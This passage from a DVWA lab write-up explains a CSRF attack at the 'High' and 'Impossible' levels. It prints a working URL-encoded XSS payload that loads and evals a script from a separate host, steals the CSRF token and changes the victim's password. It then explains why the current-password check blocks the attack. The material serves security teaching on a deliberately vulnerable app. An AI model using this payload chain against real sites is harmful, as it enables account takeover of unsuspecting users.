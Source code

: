 This payload is encoded into the following GET request.

```url
http://localhost/DVWA/vulnerabilities/xss_r/?name=%3Cimg+src%3D%27%23%27+onerror%3D%22var+xhr+%3D+new+XMLHttpRequest%28%29%3B+xhr.open%28%27GET%27%2C+%27http%3A%2F%2Flocalhost%3A8000%2Fhigh.js%27%2C+false%29%3B+xhr.onload+%3D+function+%28%29+%7Beval%28this%5Batob%28%27cmVzcG9uc2VUZXh0%27%29%5D%29%7D%3B+xhr.send%28null%29%3B+%22+%2F%3E
```

by changing the `newpass` of the `high.js` script, we will control the password of the authenticated user who clicks on the previous link. In particular, when the user clicks on the link, the following things will happen:

* The reflective XSS on the DVWA page is triggered, executing the malicious js within the victim browser.
* The malicious js does a GET to the endpoint http://localhost:8000/high.js and performs an `eval` on the obtained text from the server.
* The javascript code loaded performs two GETs. One to obtian the CSRF code from the DVWA change password page, and the second to set a new password using the previous CSRF token.
* As soon as the second GET hits the server, the password of the user is changed by the server.

{% hint style="warning" %}
Using two XSS requests we can redirect user to the same origin of name server and we can't be sure that request is valid.
{% endhint %}

## Impossible

<figure><img src="../.gitbook/assets/image (211).png" alt=""><figcaption></figcaption></figure>

In this case there's a new input text: Current password, an info unknown by attacker that using others controls, prevents CSRF attack.

<figure><img src="../.gitbook/assets/image (212).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
Site isn't vulnerable to CSRF attack because the request includes info that the attacker cannot have access to.
{% endhint %}

## References

For the making of this solution the following resource were used:

* [https://stackoverflow.com/questions/21956683/enable-access-control-on-simple-http-server](https://stackoverflow.com/questions/21956683/enable-access-control-on-simple-http-server)
* [https://labs.withsecure.com/publications/getting-real-with-xss](https://labs.withsecure.com/publications/getting-real-with-xss)
* [https://github.com/LeonardoE95/DVWA/tree/main/src/client\_side\_request\_forgery](https://github.com/LeonardoE95/DVWA/tree/main/src/client_side_request_forgery)
* [https://portswigger.net/web-security/csrf](https://portswigger.net/web-security/csrf)
* [https://owasp.org/www-community/attacks/csrf](https://owasp.org/www-community/attacks/csrf)
